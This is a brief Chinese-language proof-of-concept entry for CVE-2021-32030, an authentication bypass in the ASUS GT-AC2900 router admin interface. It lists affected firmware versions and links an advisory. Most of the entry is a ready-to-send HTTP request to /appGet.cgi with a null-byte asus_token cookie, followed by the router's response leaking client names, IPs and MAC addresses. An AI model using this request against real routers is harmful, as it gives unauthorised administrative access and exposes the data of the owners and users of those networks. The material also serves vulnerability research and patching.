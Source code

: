 # 华硕-GT-AC2900-身份验证绕过（CVE-2021-32030）

ASUS GT-AC2900管理员应用程序在处理未经身份验证的用户的远程输入时，容易受到身份验证绕过漏洞的攻击，从而导致对管理员界面的未经授权的访问。

受影响版本：

* ASUS GT-AC2900韧体版本9.0.0.4.386.41994（测试版）
* ASUS GT-AC2900韧体版本3.0.0.4.386.41793（最新生产）

详情分析可以见：https://github.com/atredispartners/advisories/blob/master/ATREDIS-2020-0010.md

通过在auth_check添加空字符进行绕过身份验证。

poc：

```yaml
GET /appGet.cgi?hook=get_cfg_clientlist() HTTP/1.1
Host: 192.168.1.107:8443
Content-Length: 0
User-Agent: asusrouter--
Connection: close
Referer: https://192.168.1.107:8443/
Cookie: asus_token=\0Invalid; clickedItem_tab=0

HTTP/1.0 200 OK
Server: httpd/2.0
Content-Type: application/json;charset=UTF-8
Connection: close

{
"get_cfg_clientlist":[{"alias":"24:4B:FE:64:37:10","model_name":"GT-AC2900","ui_model_name":"GT-AC2900","fwver":"3.0.0.4.386_41793-gdb31cdc","newfwver":"","ip":"192.168.50.1","mac":"24:4B:FE:64:37:10","online":"1","ap2g":"24:4B:FE:64:37:10","ap5g":"24:4B:FE:64:37:14","ap5g1":"","apdwb":"","wired_mac":[
...
...
}
```